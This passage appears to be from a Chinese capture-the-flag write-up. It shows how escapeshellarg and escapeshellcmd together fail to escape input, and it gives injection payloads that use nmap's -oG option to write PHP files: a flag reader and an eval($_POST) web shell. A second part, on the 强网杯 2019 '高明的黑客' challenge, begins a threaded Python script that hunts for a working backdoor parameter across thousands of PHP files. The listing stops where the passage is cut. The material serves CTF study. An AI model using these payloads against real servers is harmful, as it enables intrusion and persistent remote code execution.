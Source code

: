 最后执行的命令是
```
curl '172.17.0.2'\\'' -v -da=1\'
```
由于中间的 `\\ 被解释为 \` 而不再是转义字符，所以后面的 `'` 没有被转义，与再`后面的 '` 配对儿成了一个空白连接符。

所以可以简化为
```
curl 172.17.0.2\ -v -d a=1'
```
即向`172.17.0.2\`发起请求，POST 数据为`a=1'`

Payload:
```
输入：' <?php phpinfo();?> -oG hack.php '

Escapeshellarg之后：''\'' <?php phpinfo();?> -oG hack.php '\'''
Escapeshellcmd之后：''\\'' \<\?php phpinfo\(\)\;\?\> -oG hack.php '\\'''

这里就相当于：\ <?php phpinfo();?> -oG hack.php \\

Getflag：' <?php echo `cat /flag`;?> -oG test.php '
```

使用一句话时注：
```
当参数使用 单引号 时如这样：' <?php eval($_POST['v']);?> -oG shell.php '
escapeshellrg之后：''\'' <?php eval($_POST['\''v'\'']);?> -oG shell.php '\'''
cmd之后：''\\'' \<\?php eval\(\$_POST\['\\''v'\\''\]\)\;\?\> -oG shell.php '\\'''
相当于：\ <?php eval($_POST[\\'v'\]);?> -oG shell.php \\
```

---
# [强网杯 2019]高明的黑客
按照提示下载备份源码
好家伙3002个

![](https://img-blog.csdnimg.cn/20210426110908989.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
思路：文件里面有eval之类的函数，打开文件，找到参数，去网站`一个一个文件匹配`，可以在自己本地搭建php，先跑一下

脚本：
```python
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)                               #这儿设置最大的线程数
filePath = r"C:/Users/cys/Desktop/src/"
os.chdir(filePath)                                     #改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5                       #设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False                                # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:                   #打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}                                         #所有的$_POST
    params = {}                                           #所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
```
